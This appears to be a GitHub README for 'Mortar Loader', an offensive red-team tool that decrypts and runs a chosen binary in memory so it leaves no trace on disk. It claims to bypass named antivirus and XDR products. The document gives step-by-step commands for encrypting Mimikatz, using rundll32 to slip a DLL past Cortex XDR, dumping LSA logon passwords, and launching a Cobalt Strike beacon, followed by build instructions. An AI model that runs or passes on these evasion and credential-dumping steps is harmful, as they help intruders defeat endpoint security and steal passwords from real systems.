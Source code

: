 # Mortar Loader 

red teaming evasion technique to defeat and divert detection and prevention of security products.Mortar Loader performs encryption and decryption of selected binary inside the memory streams and execute it directly with out writing any malicious indicator into the hard-drive. 
Mortar is able to bypass modern anti-virus products and advanced XDR solutions and it has been tested and confirmed bypass for the following: 

* Kaspersky
* ESET 
* Malewarebytes 
* Mcafee 
* Cortex XDR 
* Windows defender 
* Cylance
# Usage 

## Encryptor 

```
root@kali>./encryptor -f mimikatz.exe -o bin.tmp 

```

## Loader (DLL)
for bypassing Cortex XDR,add agressor.dll with bin.tmp in the same folder and script the following bat file 
```
@echo off 
cmd.exe /c rundll32.exe agressor.dll,stealth
```
for normal usage you can directly execute the agressor.dll 

```
rundll32.exe agressor.dll,dec
```
## Loader (EXE)
the executable version has more options you can use, as you able to pass commands for the loaded binary

```
##Mimikatz dump LSA 
deliver.exe -d -c sekurlasa::logonpasswords -f mimikatz.enc 

## Cobalt strike beacon 
deliver.exe -d -f cobalt.enc 

```
# Compiling 
the project has been coded using FPC(Free Pascal), the compiling procedures are straightforward by downloading and installing Lazarus IDE (https://www.lazarus-ide.org/index.php?page=downloads) and navigate into file > open  -> Run -> build 






